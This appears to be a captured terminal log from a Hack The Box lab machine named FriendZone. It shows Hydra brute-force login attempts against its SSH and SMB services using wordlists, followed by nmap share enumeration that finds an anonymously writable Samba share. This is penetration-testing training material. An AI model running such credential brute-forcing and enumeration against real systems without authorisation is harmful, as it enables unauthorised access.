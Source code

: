Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-01-27 14:40:05
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 6 tasks per 1 server, overall 6 tasks, 6 login tries (l:2/p:3), ~1 try per task
[DATA] attacking ssh://10.10.10.123:22/
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-01-27 14:40:09



kali@kali:~/htb/boxes/friendzone/10.10.10.123$ hydra -L users.txt -P passwords.txt smb://10.10.10.123
Hydra v9.2-dev (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-01-27 15:01:02
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 9 login tries (l:3/p:3), ~9 tries per task
[DATA] attacking smb://10.10.10.123:445/
[445][smb] Host: 10.10.10.123 Account: admin Error: Invalid account (Anonymous success)
[445][smb] Host: 10.10.10.123 Account: info Error: Invalid account (Anonymous success)
[445][smb] Host: 10.10.10.123 Account: root Error: Invalid account (Anonymous success)
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-01-27 15:01:04


 smb-enum-shares: 
|   account_used: guest
|   \\10.10.10.123\Development: 
|     Type: STYPE_DISKTREE
|     Comment: FriendZone Samba Server Files
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\etc\Development
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.10.123\Files: 
|     Type: STYPE_DISKTREE
|     Comment: FriendZone Samba Server Files /etc/Files
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\etc\hole
|     Anonymous access: <none>
|     Current user access: <none>
|   \\10.10.10.123\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (FriendZone server (Samba, Ubuntu))
|     Users: 3
|     Max Users: <unlimited>